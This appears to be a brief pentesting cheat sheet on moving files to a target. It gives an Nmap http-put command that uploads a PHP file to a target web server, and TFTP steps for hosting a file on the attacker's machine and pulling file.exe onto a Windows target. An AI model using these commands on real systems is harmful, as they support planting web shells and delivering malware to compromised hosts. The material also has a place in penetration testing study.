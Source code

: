 ## Nmap

> nmap -p 80 *TARGET_IP* --script http-put --script-args http-put.url='/remotefile.php',http-put.file='/root/myfile.php'



## TFTP

Installed on Windows XP up to 2003 by default
Ensure tftp is all set up as follows:

```
mkdir /tftp
aftpd --daemon --port 69 /tftp
cp /file/you/want /tftp
```

On Windows 
> tftp -i --yourIP-- get file.exe
